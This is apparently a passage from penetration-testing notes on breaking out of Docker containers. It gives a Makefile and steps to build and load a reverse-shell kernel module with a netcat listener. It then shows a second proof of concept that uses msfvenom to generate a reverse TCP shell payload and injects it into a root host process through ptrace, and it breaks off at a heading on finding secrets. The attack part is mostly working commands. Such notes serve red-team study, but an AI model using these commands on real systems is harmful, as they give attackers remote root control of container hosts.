 Makefile:
```
obj-m += reverseshell_module.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(shell pwd) modules

clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(shell pwd) clean
```
Required Steps:
- install linux headers
- create reverseshell_module.c
- change IP/Port as required
- create makefile
- build exploit with `make`
- copy reverseshell_module.ko to container
- make executable `chmod +x`
- set up listener `nc -nlvp 8888`
- load reverseshell kernel module - `insmod reverseshell_module.ko`

Kernel module commands
- `lsmod` - list modules
- `insmod` - load module
- `rmmod` - unload modules

#### PoC Reverse Shell Host PID
If the container is running with `--pid=host` it will be possible to view processes on the host, this can be confirmed with the `top` command. If the cap_sys_ptrace capability is available it will be possible to inject code into the address space of any host process:

- Clone the linux injector: 
```
git clone https://github.com/dismantl/linux-injector
```
- Create a payload:
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw -o payload.bin
```

- Copy the payload and injector to the container
- Make payload executable
- Start Listener
- identify process running as root on host
```
ps auxx | grep root
```
- exploit the payload
```
./injector <pid> payload.bin
```
### Searching for Secrets
Secrets management is a challenge within docker and devops in general. There are many recommended ways to store secrets however its still common to find secrets embedded within multiple insecure locations:
